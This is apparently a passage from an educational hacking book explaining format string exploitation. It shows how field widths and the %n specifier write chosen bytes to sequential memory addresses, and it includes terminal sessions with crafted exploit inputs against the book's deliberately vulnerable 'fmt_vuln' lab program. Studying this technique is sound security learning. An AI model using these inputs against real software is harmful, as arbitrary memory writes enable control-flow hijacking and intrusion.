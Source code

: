 By manipulating the _field-width_ option of one of the format parameters before the __%n__, a certain number of blank spaces can be inserted, resulting in the output having some blank lines. These lines, in turn, can be used to control the number of bytes written before the __%n__ format parameter. This approach will work for small numbers, but it won’t work for larger ones, like memory addresses.

Looking at the hexadecimal representation of the _test_val_ value, it’s apparent that the least significant byte can be controlled fairly well. (Remember that the least significant byte is actually located in the first byte of the four-byte word of memory.) This detail can be used to write an entire address. If four writes are done at sequential memory addresses, the least significant byte can be written to each byte of a four-byte  word, as shown here:

<pre style="color: white;">
<strong><em>Memory                      94 95 96 97</em></strong>
First write to 0x08049794   AA 00 00 00
Second write to 0x08049795     BB 00 00 00
Third write to 0x08049796         CC 00 00 00
Fourth write to 0x08049797           DD 00 00 00
<strong><em>Result                      AA BB CC DD</em></strong>
</pre>

As an example, let’s try to write the address _0xDDCCBBAA_ into the test variable. In memory, the first byte of the test variable should be _0xAA_, then _0xBB_, then _0xCC_, and finally _0xDD_. Four separate writes to the memory addresses _0x08049794_, _0x08049795_, _0x08049796_, and _0x08049797_ should accomplish this. The first write will write the value _0x000000aa_, the second _0x000000bb_, the third _0x000000cc_, and finally _0x000000dd_.

The first write should be easy.

<pre style="color: white;">
reader@hacking:~/booksrc $ ./fmt_vuln $(printf "\x94\x97\x04\x08")%x%x%8x%n
The right way to print user-controlled input:
??%x%x%8x%n
The wrong way to print user-controlled input:
??bffff3d0b7fe75fc 0
[*] test_val @ 0x08049794 = 28 0x0000001c
reader@hacking:~/booksrc $ gdb -q
(gdb) p 0xaa - 28 + 8
$1 = 150
(gdb) quit
reader@hacking:~/booksrc $ ./fmt_vuln $(printf "\x94\x97\x04\x08")%x%x%150x%n
The right way to print user-controlled input:
??%x%x%150x%n
The wrong way to print user-controlled input:
??bffff3d0b7fe75fc
0
[*] test_val @ 0x08049794 = 170 0x000000aa
reader@hacking:~/booksrc $
</pre>

The last _%x_ format parameter uses _8_ as the field width to standardize the output. This is essentially reading a random DWORD from the stack, which could output anywhere from 1 to 8 characters. Since the first overwrite puts _28_ into __test_val__, using _150_ as the field width instead of _8_ should control the least significant byte of __test_val__ to _0xAA_.
